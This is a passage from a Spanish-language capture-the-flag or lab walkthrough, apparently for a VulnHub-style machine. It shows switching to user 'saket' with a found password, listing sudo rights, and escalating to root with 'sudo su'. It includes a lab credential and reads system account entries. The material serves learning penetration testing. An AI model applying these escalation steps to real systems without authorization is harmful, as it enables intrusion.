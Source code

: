 ```bash
mysql:x:126:133:MySQL Server,,,:/nonexistent:/bin/false
```

Vemos que está el usuario **saket** que encontramos cuando inspeccionábamos el servidor sql.

-------------------------------------------------------------------------------

Vamos a probar con las credenciales encontradas:

```bash
> su saket
password: Saket@#$1337
```
```bash
saket@ubuntu:/etc$
```

Y vemos que hemos escalado privilegios.

-------------------------------------------------------------------------------
 
Después de investigar varias cosas. miramos qué comandos puede ejecutar el usuario saket con privilegios elevados.

```bash
saket@ubuntu:~$ sudo -l
[sudo] password for saket: Saket@#$1337
```

```bash 
Matching Defaults entries for saket on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User saket may run the following commands on ubuntu:
    (ALL : ALL) ALL
```

Miramos la última linea y flipamos

-------------------------------------------------------------------------------

La última línea nos permite hacer lo siguiente:

```bash
saket@ubuntu:~$ sudo su
root@ubuntu:/home/saket# 
```

```bash
root@ubuntu:/home/saket# whoami
root
```

-------------------------------------------------------------------------------

Hemos conseguido ser usuario root.

```bash
root@ubuntu:/home/saket# cd 
root@ubuntu:~# ls -la
```
